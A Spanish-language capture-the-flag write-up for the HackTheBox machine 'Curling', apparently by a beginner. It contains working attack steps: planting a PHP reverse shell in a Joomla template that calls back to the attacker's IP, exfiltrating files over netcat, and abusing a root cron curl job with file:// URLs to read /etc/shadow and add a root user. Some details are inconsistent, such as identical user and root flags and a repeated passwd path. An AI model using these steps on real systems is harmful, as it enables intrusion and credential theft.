[Writeup] HackTheBox: Curling

Disclaimer: My first box ever.
Primero podemos hacer una simple enumeración de la máquina para ver los servicios corriendo allí y similares.
Con Nmap en mi caso fue como sigue
nmap -sV -sC -oA curling 10.10.10.150

Vemos que tenemos un servidor ssh coriendo en la maquina y un servidor Apache con un sitio web que usa Joomla. Intenté hacer fuerza bruta al servidor ssh y fracasé miserablemente.
No obstante, podemos echarle un ojo al sitio web y hacer el típico "Click derecho > Ver código fuente" ya que es algo usual en este tipo de retos que haya una pista allí. En el código fuente casi al final del sitio antes del </html> podemos ver una pista como se muestra abajo.
</body> <!-- secret.txt --> </html>
Probamos en el navegador web yendo a 10.10.10.150/secret.txt, en mi caso. Efectivamente, el archivo existe y contiene lo que parece ser una texto codificado en base64, ¿Será una contraseña?
wget 10.10.10.150/secret.txt
cat secret.txt
Q3VybGluZzIwMTgh
Probamos decodificarlo a ver que dice
echo "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
Nos arroja el resultado arriba lo que sí parece ser una contraseña.
De vuelta a la raíz del sitio web podemos ver en algunos lados palabras como "pebble", "curling2018!" y el usuario "Floris". Como ya sabemos que el sitio web usa Joomla por los resultados de Nmap y otras cosas (como el icono del sitio web) nos vamos al panel de administración en http://10.10.10.150/administrator/.
Luego de probar con el usuario "Floris" y la contraseña arriba y fracasar probamos con el mismo usuario pero todo en minúsculas y la misma contraseña y ya estamos dentro!

Usuario: floris Contraseña: Curling2018!

Ya estamos dentro de Joomla, ahora hay que idear una manera para obtener una shell. Para este caso lo haremos de la siguiente manera:
- Ir a Extensions > Templates > Templates
- Le damos click a un template cualquiera
- Seleccionamos un archivo como
error.php

- Reemplazamos todo el contenido de ese archivo con el contenido de esta shell en php php-reverse-shell.php. Es una buena idea revisar
- Es una buena idea revisar el código de la shell. Para nuestro caso debemos modificar la variable
$ipen ese archivo y poner el valor de nuestra IP local en la red, podemos dejar%porttal cual esta. PresionamosSave, por supuesto.
$ip = '10.10.13.129'; // CHANGE THIS $port = 1234; // CHANGE THIS
- Ahora ponemos en nuestra máquina ncat a escuchar en el puerto
1234
nc -vlp 1234
- Vamos al directorio de templates de Joomla hacia el template y archivo que modificamos directamente en el navegador
http://10.10.10.150/templates/beez3/error.php
Y nos vamos a nuestra terminal donde esta ncat corriendo en el puerto 1234.

Perfecto, ya tenemos una reverse shell!
Nota: Resolver el problema de tty que dice arriba con /usr/bin/python3.6m -c 'import pty; pty.spawn("/bin/bash")'.
Veamos que podemos obtener sin ser root.

Ese archivo password_backup aunque dice ser archivo regular más bien parece ocultar algo. El archivo comienza con el texto BZh91AY&SY, el cual es un encabezado de los archivos bzip2 si no me equivoco.
Ahora vamos a pasar el archivo a nuestra maquina para inspeccionarlo con binwalk a ver que encontramos
Atacante:
nc -lvp 7777 > password_backup
Victima:
``` nc 10.10.13.129 7777 < password_backup
 Oh, es un archivo comprimido bzip2. A descomprimirlo! ```bash xxd -r password_backup > backup bzip2 -d backup mv backup.out backup.gz gunzip backup.gz tar xvf backup
El último comando, el tar xvf, da como resultado el archivo
password.txt

Ok, ahora probemos en la shell con usuario floris y esa password tal cual.

user.txt
82c198ab6fc5365fdc6da2ee5c26064a
Bien! Ahora a buscar la forma de hacernos root!

Parecería como que usando cURL cada cierto tiempo (~x segundos) acceden a la URL en el archivo "input" y con el resultado llenan el archivo "report".
Probemos. Sobreescrimos el archivo /home/floris/admin-area/input como se muestra debajo
echo "url = file:///127.0.0.1/../../../root/root.txt" > input
Monitoreamos hasta que sea leído por lo que sea que este leyendo el archivo y escribiendo a "report". Luego que notemos haya sido modificado el hash de root debería estar en el archivo "report".

root.txt
82c198ab6fc5365fdc6da2ee5c26064a
Obteniendo accesos como root
Hace un tiempo largo que trabajé en esta máquina antes de terminar el writeup, así que me faltan apuntes e imágenes y demás. Pero para obtener acceso como root, ya que la flag de root para los puntos en HackTheBox la obtuve como mostré antes, obtuve el archivo /etc/passwd y el /etc/shadow usando la misma técnica que usé para obtener la flag de root.txt.
Para el passwd:
url = file:///etc/passwd
Para el shadow:
url = file:///etc/passwd
Envié ambos archivos a mi máquina atacante para poder modificarlo más cómodo y así agregar un usuario con permisos de root, al cual llamé domi. Utilizé la técnica descrita en Manually Editing User inside /etc/passwd File, (la sección del mismo nombre que el link aquí). Es básicamente, sólo agregar el usuario al passwd duplicando la linea de root y cambiando el nombre, luego generar una password con el cifrado correcto usando OpenSSL.

Para terminar muestro el job de crontab que tomaba el archivo input y generaba el report, en la imágen siguiente.
